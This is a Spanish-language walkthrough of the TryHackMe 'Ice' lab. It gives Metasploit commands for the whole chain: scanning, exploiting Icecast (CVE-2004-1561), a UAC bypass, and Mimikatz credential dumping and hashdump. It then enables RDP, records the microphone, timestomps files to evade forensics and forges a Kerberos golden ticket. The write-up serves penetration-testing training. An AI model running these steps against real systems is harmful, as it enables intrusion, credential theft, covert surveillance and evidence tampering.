

# Guía de Explotación - TryHackMe Ice

## 1. Reconocimiento

### Escaneo inicial con Nmap

Hacemos un escaneo con nmap con el siguiente comando:

```bash
nmap -A -p- -T4 IP_MAQUINA_ATACADA
```


#### Explicación de los parámetros:
- `-A`   -> Activar detección de SO, escaneo de scripts y traceroute.
- `-p-`  -> Escanea todos los puertos (1-65535).
- `-T4`  -> Define la velocidad del escaneo (agresivo).

Con este escaneo podemos identificar:

- El puerto donde está corriendo el servicio de Microsoft Remote Desktop (MSRDP).
- El nombre del servicio que se ejecuta en el puerto 8000.
- El nombre del host de la máquina objetivo.

## 2. Obtener acceso

Vuscamos el la siguiente pagia web `https://www.cvedetails.com/` el CVE que es y su impacto, en este caso es el CVE-2004-1561 con un impacto de 6.4.


Buscamos en la página web [CVE Details](https://www.cvedetails.com/) información sobre la vulnerabilidad. En este caso, encontramos el CVE-2004-1561 con un impacto de 6.4.

Procedemos a utilizar Metasploit para buscar y ejecutar un exploit adecuado. Para ello, iniciamos la consola con el siguiente comando:

```bash
msfconsole
```

Buscamos exploits relacionados con `icecast` mediante:

```bash
search icecast
```


Seleccionamos el exploit identificado con:

```bash
use 0
```

Verificamos los parámetros requeridos:

```bash
show options
```


Configuramos los parámetros necesarios:

```bash
set LHOST NUESTRA_IP
set RHOST IP_VICTIMA
show options
```


Ejecutamos el ataque:

```bash
run
```

## 3. Escalada de Privilegios

Verificamos el usuario que ejecuta el proceso Icecast con:

```bash
ps
```


Obtenemos información del sistema operativo y su arquitectura:

```bash
sysinfo
```


Realizamos un reconocimiento más profundo con:

```bash
run post/multi/recon/local_exploit_suggester
```



Identificamos el exploit `exploit/windows/local/bypassuac_eventvwr` como una posible opción para la escalada de privilegios.

Ponemos en segundo plano la sesión actual:

```bash
background
```
o con la combinación de teclas `CTRL + Z`.

Utilizamos el exploit:

```bash
use exploit/windows/local/bypassuac_eventvwr
show options
```

Seleccionamos la sesión activa:

```bash
set session 1
```


Configuramos `LHOST` con nuestra dirección IP y ejecutamos el exploit:

```bash
set LHOST NUESTRA_IP
```


Ejetuamos el exploit 

```bash
run
```


Verificamos los privilegios adquiridos:

```bash
getprivs
```

Si encontramos `SeTakeOwnershipPrivilege`, hemos logrado la escalada de privilegios.


## 4. Looting (Recolección de Información)

Migramos el proceso a `spoolsv.exe`:

```bash
migrate -N spoolsv.exe
```


Verificamos el usuario con:

```bash
getuid
```


Si vemos `NT AUTHORITY\SYSTEM`, hemos obtenido el control total.

Cargamos Mimikatz para la extracción de credenciales:

```bash
load kiwi
```


Obtenemos todas las credenciales almacenadas:

```bash
creds_all
```


## 5. Post-Explotación

Volcamos los hashes de contraseñas almacenados en el sistema:

```bash
hashdump
```


Habilitamos el acceso a escritorio remoto:

```bash
run post/windows/manage/enable_rdp
```


- **Monitoreo en tiempo real del escritorio del usuario remoto:**

  ```bash
  screenshare
  ```


- **Grabación del micrófono:**

  ```bash
  record_mic
  ```

- **Modificación de marcas de tiempo de archivos para evadir análisis forenses:**

  ```bash
  timestomp
  ```

- **Persistencia mediante ataques de tickets dorados en Kerberos:**

  ```bash
  golden_ticket_create
  ```


Este comando requiere de opciones extra para su funcionamiento.


¡Máquina comprometida con éxito!